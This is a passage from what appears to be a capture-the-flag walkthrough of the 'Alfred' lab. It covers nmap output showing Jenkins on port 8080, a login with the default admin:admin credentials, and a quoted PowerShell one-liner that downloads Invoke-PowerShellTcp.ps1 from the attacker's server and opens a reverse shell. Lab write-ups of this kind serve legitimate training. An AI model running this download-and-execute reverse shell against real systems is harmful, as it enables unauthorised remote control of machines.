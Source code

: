 ```
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.45 seconds
```

The answer is **3**.


#### 2. What is the username and password for the log in panel(in the format username:password)
By navigating port 8080, we retrieve the login page of Jenkins. By searching on Google the default credentials of Jenkins, we get the credentials **admin:admin**.
By using these credentials, we obtain access.

<img src="/assets/img/posts/alfred/meme_task1.jpg" width="50%" height="50%">


#### 3. Execute Command and Get Access

> Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
> 
> You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server


